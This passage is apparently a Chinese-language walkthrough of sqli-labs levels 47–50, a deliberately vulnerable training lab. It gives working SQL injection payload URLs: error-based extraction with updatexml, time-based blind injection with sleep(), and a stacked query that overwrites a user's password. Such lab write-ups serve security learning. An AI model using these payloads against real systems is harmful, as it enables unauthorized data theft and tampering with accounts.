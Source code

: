 ```
http://192.168.235.152/sqli-labs/Less-47?sort='and(updatexml(1,concat(0x7e,database(),0x7e),1))--+
```

![image-20220924110521784](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924110521784.png)

## 第四十八关

使用时间盲注

获取数据库长度

```
http://192.168.235.152/sqli-labs/Less-48?sort=2%20and(if(length(database())=8,sleep(0.1),1))-- 
```

![image-20220924111456790](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924111456790.png)

获取数据库名称

```
http://192.168.235.152/sqli-labs/Less-48?sort=2%20and(if(substr(database(),1,1)='s',sleep(0.1),1))-- 
```

![image-20220924111611638](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924111611638.png)

## 第四十九关

时间型盲注

获取数据库长度

```
http://192.168.235.152/sqli-labs/Less-49?sort=1'and(if(length(database())=8,sleep(0.1),1))%23
```

获取数据库名称

```
http://192.168.235.152/sqli-labs/Less-49?sort=1'and(if(substr(database(),1,1)='s',sleep(0.1),1))%23
```

## 第五十关

堆叠注入，尝试修改Dumb的密码

![image-20220924113645230](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924113645230.png)

payload

```
http://192.168.235.152/sqli-labs/Less-50?sort=1;update users set password='123' where username='Dumb'
```

![image-20220924113752410](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924113752410.png)
